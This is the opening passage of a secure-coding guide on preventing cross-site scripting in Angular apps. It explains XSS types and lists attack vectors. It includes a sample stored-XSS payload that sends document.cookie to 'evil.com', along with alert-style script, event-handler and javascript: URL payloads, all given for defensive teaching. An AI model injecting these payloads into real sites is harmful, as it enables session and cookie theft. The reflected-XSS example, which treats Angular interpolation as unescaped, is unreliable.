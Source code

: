 # XSS Prevention in Angular

Complete guide to preventing Cross-Site Scripting (XSS) attacks in Angular applications.

## Table of Contents

1. [Understanding XSS](#understanding-xss)
2. [Angular's Built-in Protection](#angulars-built-in-protection)
3. [DomSanitizer](#domsanitizer)
4. [Content Security Policy](#content-security-policy)
5. [Secure Coding Patterns](#secure-coding-patterns)
6. [Common Vulnerabilities](#common-vulnerabilities)
7. [Testing for XSS](#testing-for-xss)

---

## Understanding XSS

### Types of XSS

**1. Stored XSS (Persistent)**
```typescript
// Attacker stores malicious script in database
userBio = '<script>fetch("evil.com?cookie=" + document.cookie)</script>';

// Later displayed to other users
<div [innerHTML]="userBio"></div> // Executes script
```

**2. Reflected XSS (Non-persistent)**
```typescript
// Malicious link: https://example.com?search=<script>alert(1)</script>

// App reflects input without sanitization
<div>Search results for: {{ searchQuery }}</div>
```

**3. DOM-based XSS**
```typescript
// URL: https://example.com#<img src=x onerror=alert(1)>

// Unsafe DOM manipulation
element.innerHTML = location.hash.substring(1);
```

### XSS Attack Vectors

```typescript
// Script tags
<script>alert('XSS')</script>

// Event handlers
<img src=x onerror=alert('XSS')>
<div onclick=alert('XSS')>

// Data URLs
<a href="data:text/html,<script>alert('XSS')</script>">

// JavaScript URLs
<a href="javascript:alert('XSS')">

// Style injection
<div style="background:url('javascript:alert(XSS)')">

```